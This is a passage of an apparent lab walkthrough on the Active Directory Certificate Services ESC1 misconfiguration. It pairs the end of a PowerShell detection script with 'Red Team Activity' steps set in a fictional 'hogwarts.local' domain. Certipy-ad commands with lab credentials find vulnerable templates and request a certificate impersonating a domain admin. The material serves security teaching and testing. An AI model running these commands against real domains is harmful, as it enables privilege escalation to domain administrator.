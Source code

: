 ```powershell
                }
            elseif((($access.IdentityReference -like "*Domain Users*") -and ($access.ActiveDirectoryRights -like '*ExtendedRight*')))
                {
                    echo "$($cert.Name) Domain Users with ExtendedRight and it is vulnerable to ESC1.."
                }
            elseif((($access.IdentityReference -like "*Everyone*") -and ($access.ActiveDirectoryRights -like '*ExtendedRight*')))
                {
                    echo " $($cert.Name) Everyone with ExtendedRight and it is vulnerable to ESC1."
                }

        }
    }
}
else
{
    echo "There is no certificate which is vulnerable to ESC1."
}


```


## Red Team Activity
HOGWARTS\harry.potter is a user with lowest privilege. It is a just a member of Domain Users. <br>
HOGWARTS\severus.snape is a domain admin user. <br>
### Step1-Find vulnerable Certificates
```console
# certipy-ad find -u 'harry.potter@hogwarts.local' -p "Gryffindor1." -dc-ip "192.168.0.111"  -enabled -vulnerable -debug
```
<b>-enabled</b>    : Ignore disabled templates. <br>
<b>-vulnerable</b> : Show certificate templates that are vulnerable to known attacks or misconfigurations. <br>
<b>-debug</b>      : Provide more detailed information about the command's execution process. <br>

<img src="https://github.com/user-attachments/assets/c7572d8e-f948-4302-baa3-849486559f95">

### Step2-Request a Certificated Issued to Domain Admin User

```console
# certipy-ad req -u 'harry.potter@hogwarts.local' -p "Gryffindor1." -dc-ip 192.168.0.111 -ca 'hogwarts-CERT01-CA' -template 'ESC1_Template' -upn 'severus.snape@hogwarts.local' -target CERT01.hogwarts.local -debug
```
<b>-ca</b>         : Specify CA.<br>
<b>-template</b>   : Specify template name. <br>
<b>-upn</b>        : Set UPN. This UPN will be included in the issued certificate. It allows impersonating <b>HOGWARTS\severus.snape</b> <br>
<b>-target</b>     : DNS name of the CA. <br>
